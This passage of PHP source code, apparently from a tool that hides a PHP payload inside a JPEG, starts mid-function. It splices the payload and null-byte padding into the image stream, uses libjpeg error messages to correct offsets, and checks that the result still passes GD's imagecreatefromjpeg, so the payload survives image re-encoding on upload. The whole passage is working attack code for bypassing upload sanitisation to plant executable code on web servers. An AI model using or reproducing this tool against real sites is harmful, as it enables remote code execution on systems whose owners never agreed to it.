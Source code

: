 ```php
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');
 
    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }
 
    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }
 
    class DataInputStream {
        private $binData;
        private $order;
        private $size;
 
        public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
```